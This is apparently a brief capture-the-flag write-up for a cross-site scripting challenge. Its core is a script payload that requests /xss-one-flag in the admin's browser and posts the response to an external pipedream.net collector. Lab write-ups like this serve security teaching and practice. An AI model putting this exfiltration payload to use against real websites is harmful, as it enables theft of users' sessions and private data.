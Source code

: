 ![image](https://github.com/nhattanhh/CTF/assets/130430279/553c28c9-68f2-4816-9720-eeda5d65da22)

This chall give 3 hints:

![image](https://github.com/nhattanhh/CTF/assets/130430279/d71ae524-6be0-4ebb-bf97-54c0436abb78)

- Our mission to request use 'Get' method to /xss-one-flag and catch Admin's session in respond

- So use this payload to catch respond with pipedream:


-	<script>
-	    var xhr = new XMLHttpRequest();
-	    xhr.open('GET', '/xss-one-flag', true);
-	    xhr.onload = function() {
-	        if (xhr.status === 200) {
-	            var flag = xhr.responseText;
-	            var sendXhr = new XMLHttpRequest();
-	            sendXhr.open('POST', 'https://eozoer2j1a4mcc2.m.pipedream.net', true);
-	            sendXhr.setRequestHeader('Content-Type', 'text/plain');
-	            sendXhr.send(flag);
-	        }
-	    };
-	    xhr.send();
-	</script>


![image](https://github.com/nhattanhh/CTF/assets/130430279/aae2bfed-f35f-41f9-8465-853663873718)
